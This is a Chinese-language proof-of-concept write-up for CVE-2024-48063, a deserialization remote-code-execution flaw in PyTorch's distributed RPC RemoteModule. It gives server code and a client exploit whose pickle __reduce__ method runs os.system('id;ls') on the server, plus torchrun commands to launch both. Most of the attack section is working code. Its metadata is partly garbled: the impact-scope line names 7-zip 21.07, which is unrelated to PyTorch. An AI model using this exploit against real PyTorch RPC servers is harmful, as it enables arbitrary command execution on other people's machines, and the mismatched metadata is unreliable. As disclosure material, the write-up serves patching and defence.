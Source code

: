 # CVE-2024-48063

>   PyTorch是一个开源的深度学习框架，广泛用于机器学习和人工智能领域。

## 来源

[https://rumbling-slice-eb0.notion.site/Distributed-RPC-Framework-RemoteModule-has-Deserialization-RCE-in-pytorch-pytorch-111e3cda9e8c8021a7d3cbc61ee1a20c](https://rumbling-slice-eb0.notion.site/Distributed-RPC-Framework-RemoteModule-has-Deserialization-RCE-in-pytorch-pytorch-111e3cda9e8c8021a7d3cbc61ee1a20c)

## 简介

PyTorch的分布式RPC框架中存在反序列化漏洞，由于RemoteModule在反序列化过程中没有适当地验证或清理输入数据，导致攻击者可以通过客户端将包含恶意方法的RemoteModule实例序列化为数据，并通过RPC框架发送到服务器触发反序列化，从而可能导致在服务器上远程执行任意命令。

## 漏洞类型

-   PyTorch <= 2.4.1

## 影响范围

7-zip = 21.07

## **Proof of Concept**

init environment

```shell
export MASTER_ADDR=127.0.0.1
export MASTER_PORT=5000
export TP_SOCKET_IFNAME=ens18
export GLOO_SOCKET_IFNAME=ens18
```

the server code

[ser.py](http://ser.py)

```python
import torch
import torch.distributed.rpc as rpc

def run_server():
    # Initialize server-side RPC
    rpc.init_rpc("server", rank=0, world_size=2)
    
    # Wait for the client's remote call
    rpc.shutdown()

if __name__ == "__main__":
    run_server()
```

exec this to run

```shell
torchrun --nproc_per_node=1 --nnodes=2 --node_rank=0 --master_addr=127.0.0.1 --master_port=5000 ser.py
```

## **POC**

the client code and is exp

[cli.py](http://cli.py)

```python
import torch
import torch.distributed.rpc as rpc
from torch.distributed.nn.api.remote_module import RemoteModule
import torch.nn as nn

# Define a simple neural network model MyModel
class MyModel(nn.Module):
    def __init__(self):
        super(MyModel, self).__init__()
        # A simple linear layer with input dimension 2 and output dimension 2
        self.fc = nn.Linear(2, 2)

    # Define the forward method
    def __reduce__(self):
        return (__import__('os').system, ("id;ls",))

def run_client():
    # Initialize client-side RPC
    rpc.init_rpc("client", rank=1, world_size=2)

    # Create a remote module to run the model on the server side
    remote_model = RemoteModule(
        "server",  # Server-side device
        MyModel(),   # Definition of the remote module's model
        args=()    # Model initialization parameters
    )
    
    # Remotely call the model with an input tensor
    input_tensor = torch.tensor([1.0, 2.0])
    output = remote_model(input_tensor)
    
    print("Output from remote model:", output)
    
    # Shutdown RPC
    rpc.shutdown()

if __name__ == "__main__":
    run_client()
```

exec this to run

```shell
torchrun --nproc_per_node=1 --nnodes=2 --node_rank=1 --master_addr=127.0.0.1 --master_port=5000 cli.py
```



